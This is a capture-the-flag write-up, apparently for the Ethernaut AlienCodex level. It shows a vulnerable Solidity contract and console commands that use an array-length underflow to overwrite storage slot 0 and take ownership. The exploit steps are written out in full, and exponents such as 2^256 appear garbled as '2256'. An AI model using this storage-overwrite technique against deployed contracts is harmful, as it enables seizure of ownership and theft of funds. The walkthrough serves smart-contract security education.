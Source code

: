 # Challenge 19

<img src="./images/BigLevel19.svg" alt="19" >

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import '../helpers/Ownable-05.sol';

contract AlienCodex is Ownable {

  bool public contact;
  bytes32[] public codex;

  modifier contacted() {
    assert(contact);
    _;
  }
  
  function make_contact() public {
    contact = true;
  }

  function record(bytes32 _content) contacted public {
    codex.push(_content);
  }

  function retract() contacted public {
    codex.length--;
  }

  function revise(uint i, bytes32 _content) contacted public {
    codex[i] = _content;
  }
}
```

Challenge
--- 
> You've uncovered an Alien contract. Claim ownership to complete the level.

Solution
--- 

1. Ethereum has storage like an array of 2256 (indexing from 0 to 2256 - 1) slots of 32 byte each.

2. `retract` function will resize array without checking undeflow.
here's the vulnerability. but if need to execute this function we need to make contact needs to be true so we have function that will make out contact state false to `true`. Now Open up the terminal let's get the ownership.

```shell
>  await contract.make_contact()
// true
```

We must now determine the codex's index, i, which corresponds to slot 0 (where the owner is kept).

codex is dynamically sized only it's length is stored at next slot - slot 1. And it's location/position in storage, according to allocation rules, is determined by as keccak256(slot):

>   keccak256(slot)

remember `bool` is `1 byte` and `owner` is `20 byte` so they can fit in one slot.

here's
```
Slot        Data
-------------------------------------------------------------------
0             owner address, contact bool
1             codex.length
    .
    .
    .
p             codex[0]
p + 1         codex[1]
    .
    .
2^256 - 2     codex[2^256 - 2 - p]
2^256 - 1     codex[2^256 - 1 - p]
0             codex[2^256 - p]  (overflow!)
```
It is clear from the above table that storage slot 0 corresponds to the codex's index, which is `i = 2^256 - p` or `2^256 - keccak256(1)`!

I will therefore change the owner and contact by writing to that index.

Let's Calculate, p in storage of start of codex array.

```shell
> p = web3.utils.keccak256(web3.eth.abi.encodeParameters(["uint256"], [1]))
// 0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6
```
Calculate the required index i.
```shell
> i = BigInt(2 ** 256) - BigInt(p)
// 35707666377435648211887908874984608119992236509074197713628505308453184860938n
```

now get the address
```shell
> content = '0x' + '0'.repeat(24) + player.slice(2)
// 0x000000000000000000000000YOURADDRESS
```
now call the revise slot 
```shell
> await contract.revise(i, content)
```

and for to check `owner`
```shell
> await contract.owner();
// your address
```

now submit the instance and your level pass the AlienCodex Level 🎉.